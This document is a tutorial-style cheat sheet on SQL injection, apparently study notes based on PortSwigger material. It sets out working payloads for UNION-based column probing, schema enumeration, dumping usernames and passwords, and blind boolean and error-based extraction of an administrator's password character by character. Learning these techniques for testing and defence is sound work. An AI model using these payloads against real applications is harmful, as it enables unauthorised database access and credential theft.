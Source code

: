 # SQLi injection


## SQL Injection Cheatsheet

* https://tib3rius.com/sqli

## Overview

**How to detect SQL injection vulnerabilities**

* The single quote character `'` and look for errors or other anomalies.
* Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.
* Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the application's responses.
* Payloads designed to trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
* OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.\


**SQL injection in different parts of the query**

* Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
* However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT \[column, table], ORDER BY)\


**Warning: OR 1=1**

* If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.

## SQL injection UNION attacks

* Requirements
  * How many columns are being returned from the original query
  * Which columns returned from the original query are of a suitable data type to hold the results from the injected query

## Determining the number of columns required

* First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs
  * Example (the injection point is a quoted string within the `WHERE` clause)
  * ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
* Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values
  * NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.
  * ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
* Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

## Database-specific syntax

* Example:
  * Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  * MySQL: the double-dash sequence must be followed by a space
  * https://portswigger.net/web-security/sql-injection/cheat-sheet

## Finding columns with a useful data type

* Do you want a string?
  * ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  * Error example: Conversion failed when converting the varchar value 'a' to data type int.
  * If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

## Examining the database

* `' UNION SELECT @@version--`
* Listing the contents of the database
* Most database types (except Oracle) have a set of views called the information schema
  * `information_schema.tables`
    * | TABLE\_CATALOG | TABLE\_SCHEMA | TABLE\_NAME | TABLE\_TYPE |
      | -------------- | ------------- | ----------- | ----------- |
      | MyDatabase     | dbo           | Products    | BASE TABLE  |
    * `SELECT * FROM information_schema.tables`
  * `information_schema.columns`
    * | TABLE\_CATALOG | TABLE\_SCHEMA | TABLE\_NAME | COLUMN\_NAME | DATA\_TYPE |
      | -------------- | ------------- | ----------- | ------------ | ---------- |
      | MyDatabase     | dbo           | Users       | UserId       | int        |
    * `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
* Oracle:
  * `SELECT * FROM all_tables`
    * `SELECT TABLE_NAME FROM all_tables`
  * `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`
    * `SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'`

## Retrieving multiple values within a single column

* You can retrieve multiple values together within this single column by concatenating the values together
* `' UNION SELECT username || '~' || password FROM users--`
  * https://portswigger.net/web-security/sql-injection/cheat-sheet

## Blind SQL Injection

* Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

## Triggering conditional responses

* `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  * …xyz' AND '1'='1
    * The query to return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
  * …xyz' AND '1'='2
    * The query to not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
* Extract data one piece at a time
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    * This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    * This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    * ... Confirm that the first character of the password is `s`
  * We can continue this process to systematically determine the full password for the Administrator user.
* `SUBSTRING` is called `SUBSTR` on some types of database (https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Error-based SQL injection

* Problem: Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique "Triggering conditional responses" won't work, because injecting different boolean conditions makes no difference to the application's responses.
* It's often possible to induce the application to return a different response depending on whether a SQL error occurs and extract or infer sensitive data from the database, even in blind contexts.
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  * The CASE expression evaluates to 'a', which does not cause any error.
* `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
  * It evaluates to 1/0, which causes a divide-by-zero error.
* You can use this to determine whether the injected condition is true.
* `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
* Note: There are different ways of triggering conditional errors, and different techniques work best on different database types. See SQL cheat sheet
